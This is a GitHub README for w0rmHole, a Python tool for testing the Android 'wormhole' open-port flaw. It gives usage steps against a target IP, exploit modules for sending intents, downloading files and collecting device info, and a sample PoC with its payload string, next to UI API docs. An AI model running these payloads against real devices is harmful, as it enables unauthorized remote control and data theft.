


## W0rmH0le
> Android `wormhole`漏洞测试工具

### 说明
Forked from [Antoor/w0rm](https://github.com/antoor/w0rm).

感谢好友蚁逅(Antoor)提供基础代码

### 安装

```
 git clone https://github.com/medicean/w0rmHole
```

或者

```
https://github.com/medicean/w0rmHole/archive/master.zip
```

### 使用
程序需要一个必要参数`host`以及一个可选参数`port`

第一个参数为目标IP，第二个为连接端口，默认为`40310`：

``` bash
$ ./w0rm.py 192.168.1.100
```

连接成功后，可以输入`help`或者`tab`键得到功能命令列表。

#### 命令
 ```
- use    :加载一个 poc 模块，加载的模块在 libs/poc 目录下
 		 
	 	内置的模块如下:
        [check]        检查是否存在漏洞模块
        [sendintent]   调用其它程序模块
        [downloadfile] 下载文件模块
        [getinfo]      通用获取信息模块(也有单独的信息获取模块)
        [packageinfo]  获取单个包信息模块
 
    show options       显示要配置的参数
    info					查看 payload 说明
 -  set
        [option] [value]
        					设置一个选项的值
    exploit            执行
    search				从缓存中搜索指定字符串(没什么用，反正可以自动补全)           
    clear              Clear screen
    help               Display help menu
    quit               Exit w0rmHole
    ====               =========

 ```

#### 示例

* 准备

 `/datas/` 目录下有供测试使用的 apk 文件

 * 百度地图 8.6.5
  
  		MD5 [BaiduMaps_Android_8-6-5_1012676b.apk](./datas/BaiduMaps_Android_8-6-5_1012676b.apk) = f711f170e5f97e3332b16f1159ff8010

1. 检查目标

 ```
python w0rm.py 192.168.1.100
 ```

 如果目标存在漏洞则会进入控制台界面

2. 使用 use 加载模块

 ```
use sendintent
 ```

3. 设置参数

 ```
set intent sms:110
 ```

4. 执行 payload

 ```
exploit
 ```


### 演示

* Demo1


---
* Demo2



---

### PoC 编写说明

如果需要改写 PoC ，则按照下文说明编写

#### PoC 类

PoC 可以通过 use 命令动态加载进程序，要放置在 libs/poc 目录下并以 .py 做为后缀。


以 sendintent 为例

```
# coding:utf-8
# 引入头部
from libs.core.register import register  # 注册 PoC 类， 必选
# AttribDict 类就是一个 dict 类型，demo.a 相当于 demo['a']，必选
from libs.core.attrdict import AttribDict
# UI,如果你要用 print 可选
from libs.ui import UI

# PoC 类名
class SendIntent(object):
    def __init__(self):
        pass

    ui = UI()

    # info 为字典类型 use 该 PoC 模块后使用 info 来显示 info 中信息

    info = {
        "Author": "Medici.Yan",
        "Description": u'''
调用其它程序

INTENT:
    sms:    调用发短信程序     eg: set INTENT sms:110
    tel:    调用打电话程序     eg: set INTENT tel:110
    geo:    调用 GPS
    smsto:  发短信
    http:// 调用浏览器打开网页  eg: set INTENT http://google.com
    file:// 打开本地文件
    mailto: 发送邮件

    其它的自行补充
        ''',
    }

	 # payload 为字符串类型, 如果还需要用户手动配置相关参数，请使用 {self.options.参数项} 来占位
    payload = "sendintent?intent={self.options.INTENT}&mcmdf=inapp_&callback=t"

	 # options 为 AttribDict 类型，必填
    options = AttribDict()
    
	 # 要配置的参数项
	 # 如果需要用户在输入的时候提供自动补全，则将其值变为 list 类型，并将要提示的内容作为元素传入
	 # 如果不需要自动补全，将其值置为 "" 就行了。
    options.INTENT = [
            'sms:',
            'tel:',
            'geo:',
            'smsto:',
            'http://',
            'file://',
            'mailto:',
        ]
	 # 回调函数
	 # arg[0] 类型为 bool 执行结果
	 # arg[1] 类型为 str 返回结果字符串
	 # 在回调函数内部，想怎么写就怎么写吧
    def callback(self, arg):
        if arg[0]:
            self.ui.success('Success!')
        else:
            self.ui.error('Error!')

# 注册 PoC
register(SendIntent)

```

#### UI 类

UI 类是框架提供的统一输出，如果不使用 UI 类，可以使用 log, print 等方法。

使用 UI 类一般为三步：

1. 引入 UI 类：

 ```
from libs.ui import UI
```

2. 实例化 UI:

 ```
ui = UI()
```

3. 调用

 ```
 ui.success('the string you want to output')
 ```

UI:

* 颜色：

> ui.RED
> 
> ui.GREY
> 
> ui.BLUE
> 
> ui.CYAN
> 
> 再多的就不写了，可以打开 libs/ui/__init__.py 查看

* 方法

 	返回值:
 		
 	```
 	ui		类型: ui		UI 类的对象
 	```

 	UI 类的返回值都是 UI 类的实例化对象，所以 UI 对象是可以连贯操作的
 	
 	例如：
 	
 	```
 	 ui = UI()
 	 ui.success('Success').p('Hello', ui.RED)
 	```
 	

 * ui.**p**

	 > 输出传入的字符串
	   
	   ui.**p**(msg, color[,enter=True])
	   
	   	参数说明:
	   	 
	   	```
	     msg	类型：str		要输出的字符串
	     color	类型: int		该字符串的颜色   
	     enter 	类型: bool	是否在字符串结尾添加换行符，可选参数，默认为 True
 		```
 		
 		返回值:
 		
 		```
 		ui		类型: ui		UI 类的对象
 		```

 * table

	 > 将输入的参数以表格形式输出
	   
	   ui.**table**(title = False, size = [], menu = [], item = [])	   
	   	参数说明:
	   	 
	   	```
	     title	类型：str		表格的标题，默认标题
	     size	类型: list	表格的长度，最大为 80
		     	eg: size=[20, 30] 表示有两列，第一列长度 20，第二列长度 30
	    
	     menu 	类型: list	表格的项的标题，和 size 中元素个数保持一致
	     		eg: menu=['col1name', 'col2name'] 即输出两列，
	     		    第一列列名叫 col1name, 第二列列名叫 col2name

	     item 	类型: list	表格的数据部分，item 的元素为 list ,每个元素子元素的个数和 size 中元素个数保持一致
	     		eg: item=[]
 		```
 		
 * hilight

	 > 高亮
	   
	   ui.**hilight**(obj="", msg=''[, objcolor [, msgcolor ] ]):	   
	   	参数说明:
	   	 
	   	```
	     obj	类型：str		长字符串
	     msg	类型: str	短字符串,如果短串不在 obj 中，则会分别输出
	     objcolor 	类型: int	长串的颜色，默认为绿色
	     msgcolor 	类型: int	短串的颜色，默认为红色
 		```

 * notify
 
	 > 消息通知
	   
	   ui.**notify**(UI):	   
	   	notify 是一个类，其包函了 4 个方法
	   	 
	   	```
	     info		输出提示信息, 青色(CYAN)
	     success	输出成功信息, 绿色(GREEN)
	     warning 	输出警告信息, 黄色(YELLOW)
	     error 	输出错误信息, 红色(RED)
 		```
 * info
 
	 > 输出提示信息, 青色(CYAN)
	 >
	 > ui.info 就是 ui.notify.info
	   
	   ui.**info**(msg=''):	   

	   	 参数说明：
	   	 
	   	```
	     msg	类型: str	要输出的字符串
 		```

 * success
	> 输出成功信息, 绿色(GREEN)
	> 
	> 参数说明参考 ui.info
 * warning
 	> 输出警告信息, 黄色(YELLOW)
	> 
	> 参数说明参考 ui.info
 * error
	> 输出错误信息, 红色(RED)
	> 
	> 参数说明参考 ui.info
 
 * clear
 	> 清屏
 	ui.clear()

 * help
 	
 	 > 帮助菜单
 	
 	 ui.**help**(title='HELP MENU', options=[])
 	
 	 参数说明：
 	 
	 ```
 	 title		类型: str		菜单标题
 	 
 	 options	类型: list	菜单列表
 	 
 	 ```

### 免责声明
> 本工具仅用于合法的漏洞测试使用，可随意扩展功能，不得用于非法用途, 若在使用过程中产生任何法律问题，与开发者无关.

### 贡献列表

* [蚁逅 Antoor](http://weibo.com/antoor)
* [Medici.Yan](http://blog.evalbug.com)
